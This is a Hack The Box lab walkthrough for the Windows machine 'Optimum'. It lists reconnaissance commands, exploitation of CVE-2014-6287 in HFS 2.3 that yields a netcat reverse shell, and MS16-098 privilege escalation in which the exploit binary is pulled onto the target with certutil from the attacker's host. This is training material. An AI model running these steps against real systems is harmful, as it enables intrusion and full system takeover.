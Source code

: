 # Optimum 

**OS:** Windows

**Level:** Easy

**Links:** [1](https://www.hackthebox.com/machines/Optimum)  [2](https://app.hackthebox.com/machines/Optimum)

**Machine ip:** 10.10.10.8

![Optimum](https://github.com/h4md153v63n/CTFs/assets/5091265/f0fe7004-231f-495f-b3b2-8af6d4e6d81a)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.8 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.8 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/6bd17850-1383-4bb9-9363-f840a535bbc5)


## Enumeration
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/7b8a57ae-f7cc-4fee-a4bb-d9d8ae1f2ddb)


## Exploitation & Gaining Access

### CVE-2014-6287 [1](https://www.exploit-db.com/exploits/39161) [2](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/optimum-writeup-w-o-metasploit#id-4a01)

```
searchsploit hfs 2.3

searchsploit -m 39161
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/160c6e02-5cc4-4c84-aa44-b51481749738)

Change ip addres and port number:

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fbbb8068-00c8-4bda-8ae5-9b062ae8d92a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a62cd8b5-3931-4863-9e43-c9bd8ca44602)

```
# On the kali attack vm:
cp /usr/share/windows-binaries/nc.exe .

# On the kali attack vm - different terminal:
sudo python3 -m http.server 80

# On the kali attack vm - different terminal you will get the revershell:
nc -nlvp 4444

# On the kali attack vm - different terminal:
python3 39161.py 10.10.10.8 80

python3 39161.py 10.10.10.8 80

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/297d6042-a32c-4afc-87ac-a4502acc2fc2)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/0b3ad525-c717-4f8c-a61c-6bf6381ab8f2)


## Privilege Escalation

### Method 1: MS16-098 / Kernel [1](https://www.exploit-db.com/exploits/41020) [2](https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe) [3](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/optimum-writeup-w-o-metasploit#id-4f80)

**Alternative** links [1](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098) [2](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-098/bfill.exe)

```
# On the kali attack vm:
python2 windows-exploit-suggester.py --update

python2 windows-exploit-suggester.py --database 2024-04-08-mssb.xls --systeminfo systeminfo.txt

# On the target machine:
systeminfo
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/32eb7f0c-5bb7-41b6-8d33-dfb5f11445a1)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a43d3006-c5f2-4141-9446-154e5c8169ea)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/c48e9398-e5c2-4853-9bd8-1b9d0596b083)

```
# On the kali attack vm:
searchsploit 41020

searchsploit -m 41020

wget https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe

sudo python3 -m http.server

# On the target machine:
certutil.exe -urlcache -split -f "http://10.10.14.24:8000/41020.exe" 41020.exe

41020.exe
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/d51b7047-a7a0-4610-90a0-f28a43dbaa68)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5cbb257e-323c-4c60-9ba7-7cd637287e51)

Get the shell as **nt authority\system**, and read the root flag.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4616bddf-9e5c-47fc-ad79-1f42c84449c8)


# References & Alternatives
+ https://vvmlist.github.io/#Optimum
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/optimum-writeup-w-o-metasploit
  + https://medium.com/@toneemarqus/optimum-htb-manual-walkthrough-2023-tonee-e2a53fb59b1d
+ https://0xdf.gitlab.io/2021/03/17/htb-optimum.html


## CVE Scripting
+ **CVE-2014-6287:**
  + https://www.exploit-db.com/exploits/39161
  + https://nvd.nist.gov/vuln/detail/CVE-2014-6287
+ **MS16-098 / Kernel:**
  + https://www.exploit-db.com/exploits/41020
    + https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe
 + https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098
   + https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-098/bfill.exe


## Tools
+ /usr/share/windows-resources/binaries/
+ **Windows Exploit Suggester:** https://github.com/AonCyberLabs/Windows-Exploit-Suggester


## Technical Knowledge
+ x


## Problems Solution
+ **SyntaxError: (unicode error) 'unicodeescape' codec can't decode bytes in position 2-3: truncated \UXXXXXXXX escape:**
  + https://youtu.be/rNmF991BSTE?t=40
  + https://www.geeksforgeeks.org/how-to-fix-syntaxerror-unicode-error-unicodeescape-codec-cant-decode-bytes/
  + https://community.alteryx.com/t5/Alteryx-Designer-Desktop-Discussions/Error-unicodeescape-codec-can-t-decode-bytes/td-p/427540
+ **SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?:**
  + https://www.w3docs.com/snippets/python/what-does-syntaxerror-missing-parentheses-in-call-to-print-mean-in-python.html
  + https://stackoverflow.com/questions/25445439/what-does-syntaxerror-missing-parentheses-in-call-to-print-mean-in-python
+ **ModuleNotFoundError: No module named 'urllib2':**
  + https://www.easytweaks.com/module-not-found-urllib2/
  + https://youtu.be/jfD_9DoWGlI?t=63
  + https://blog.finxter.com/fix-import-error-no-module-named-urllib2-python/
+ **ERROR: Could not find a version that satisfies the requirement urllib (from versions: none):**
  + https://github.com/ThomasTJdev/python_gdork_sqli/issues/1
+ **xlrd.biffh.XLRDError: Excel xlsx file; not supported:**
  + https://stackoverflow.com/questions/65254535/xlrd-biffh-xlrderror-excel-xlsx-file-not-supported


## For More
- x
